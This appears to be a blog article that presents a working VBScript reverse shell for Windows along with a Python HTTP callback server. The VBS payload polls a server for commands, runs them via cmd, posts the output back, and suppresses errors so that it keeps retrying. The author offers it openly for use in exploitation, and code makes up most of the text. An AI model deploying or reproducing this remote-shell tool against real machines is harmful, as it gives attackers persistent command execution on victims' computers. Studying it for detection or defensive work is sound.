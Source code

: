 ==================
VBS Reverse Shells
==================

Introduction
============

**tl;dr:** https://github.com/cym13/vbs-reverse-shell

Reverse shells are scripts that provide shell access to remote users. They
are omnipresent when it comes to computer hacking as they allow the attacker
to transform a single often tedious command execution into an interactive
shell fit for further exploitation.

Most reverse shells scripts are in Bash, Perl or Python for Linux, or
Powershell for Windows. One may notice the lack of options when it comes to
hacking Windows computers: the fact is that if Powershell is available then
it should be used as it's a very powerful scripting language. But not all
Windows have Powershell, and in its absence one may wonder what to do.

We will explore another alternative for Windows systems: Visual Basic Script.

The language
============

VBS is a scripting language inspired by Microsoft's Visual Basic and created
in 1996. It has been the default Windows scripting language since Windows 98
and Windows Server NT 4.0 and is still available on Windows 10 today.

Long story short it's an awful language but it's powerful and resilient. It's
been used to attack computers for a long time and notably used for the famous
virus ILOVEYOU_.

.. _ILOVEYOU: https://en.wikipedia.org/wiki/ILOVEYOU

.. image:: ../image/mary_love_letter.png
    :width: 40%

*So if it's such a ubiquitous language, why isn't it already used for reverse
shells by most people?*

Well, the main reason is that VBS has no easy way to deal with raw sockets by
default. Reverse shells are usually about reading commands from a socket,
executing them, printing their output to the socket and looping over. No raw
socket API means that this simple strategy isn't so simple anymore.

What VBS has however is a way to perform web requests, so the strategy we'll
use is to encapsulate commands and outputs in HTTP requests. This will need a
specific server but it isn't much of an issue.

Of course we could just download a compiled reverse shell through our VBS
script and launch it, but I want to explore a pure VBS option for when
two-stage exploitations are not an option.

The payload
===========

The VBS payload will ask the callback server for commands through GET
requests, reading it from the response. It will then execute the command and
POST the output to the server. No response is expected at that point.

The good thing with that strategy is that it works. I mean, as we said
earlier, VBS has its limitations so getting a working reverse shell is worth
mentioning.

There are also some disadvantages:

- It is stateless, in particular this implementation doesn't allow the user
  to change directory or define variables. Each request is independent from
  the others.

- It's big. A `typical bash reverse shell`__ doesn't take more than 40 chars
  which can easily be concealed or transmitted through narrow buffers. Our
  script is 20 times bigger than that.

- It cannot be transformed into a full TTY shell easily. This means that
  commands that would interactively ask for user input will fail.

.. _bashrs: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

__ bashrs_

An interesting implementation detail though: by using *On Error Resume Next*
we tell the script not to stop on errors. This way, even if we're stalled or
if the connection with the server is lost the script will just retry again
and give us the hand back. We're never stuck (although we may have to wait a
few minutes).

For this reason we defined an exit flag: *EXIT*. This allows us to shut the
script down properly.

Without further delay, here is the full payload I use:

.. code:: vbnet

    Option Explicit
    On Error Resume Next

    CONST callbackUrl = "http://localhost:80/"

    Dim xmlHttpReq, shell, execObj, command, break, result

    Set shell = CreateObject("WScript.Shell")

    break = False
    While break <> True
        Set xmlHttpReq = WScript.CreateObject("MSXML2.ServerXMLHTTP")
        xmlHttpReq.Open "GET", callbackUrl, false
        xmlHttpReq.Send

        command = "cmd /c " & Trim(xmlHttpReq.responseText)

        If InStr(command, "EXIT") Then
            break = True
        Else
            Set execObj = shell.Exec(command)

            result = ""
            Do Until execObj.StdOut.AtEndOfStream
                result = result & execObj.StdOut.ReadAll()
            Loop

            Set xmlHttpReq = WScript.CreateObject("MSXML2.ServerXMLHTTP")
            xmlHttpReq.Open "POST", callbackUrl, false
            xmlHttpReq.Send(result)
        End If
    Wend

The server
==========

A special client means a special server. I choose to do it in Python for
its portability. I decided to use raw sockets and build an HTTP facade on top
of it. This is because I fear that what we exchange through this tunnel
will not always be proper HTTP requests and I don't want a real HTTP server
to helpfully throw exceptions every time it encounters badly formed requests.

The thing is, we don't need to handle real HTTP requests, just to distinguish
GET requests from POST ones. And that's exactly what we do:

.. code:: python

    #!/usr/bin/env python3

    import socketserver

    PORT=80

    class CmdHttpHandler(socketserver.BaseRequestHandler):
        def handle(self):
            self.data = self.request.recv(2**14).strip().decode("UTF-8")

            if len(data) == 0:
                return

            elif self.data.splitlines()[0].startswith("GET"):
                command = input("%s > " % self.client_address[0]).encode("UTF-8")

                response = (b"HTTP/1.1 200\ncontent-length: "
                            + str(len(command)).encode("UTF-8")
                            + b"\n\n"
                            + command)

                self.request.sendall(response)


            elif self.data.splitlines()[0].startswith("POST"):
                data = self.request.recv(2**14).strip().decode("UTF-8")
                print(data)
                print()

                response = (b"HTTP/1.1 200\ncontent-length: 0\n\n")
                self.request.sendall(response)
                return


            else:
                print(self.data.decode("UTF-8"))
                response = (b"HTTP/1.1 300\ncontent-length: 0\n\n")
                self.request.sendall(response)


    def main():
        print("To close connection enter 'EXIT'")
        print("The computer may be stalled by some commands, just try again")
        print()

        with socketserver.TCPServer(("0.0.0.0", PORT), CmdHttpHandler) as server:
            server.serve_forever()


    if __name__ == "__main__":
        main()

Conclusion
==========

When I first encountered a case where I needed a non-Powershell Windows
reverse shell I was frustrated not to find any. Hopefully nobody will be in
this situation anymore.

The VBS code may be minimized to better fit in a tight exploit, but I don't
think it will account for much. I'm guessing something like 700 bytes is the
limit. I would be very glad if you were to prove me wrong though!

.. image:: ../image/aihara_enju.png
    :width: 60%

Image sources
-------------

- https://fluffyqueenz.deviantart.com/art/OC-Will-you-accept-my-love-letter-senpai-678491065
- https://www.quora.com/Whats-the-best-loli-anime
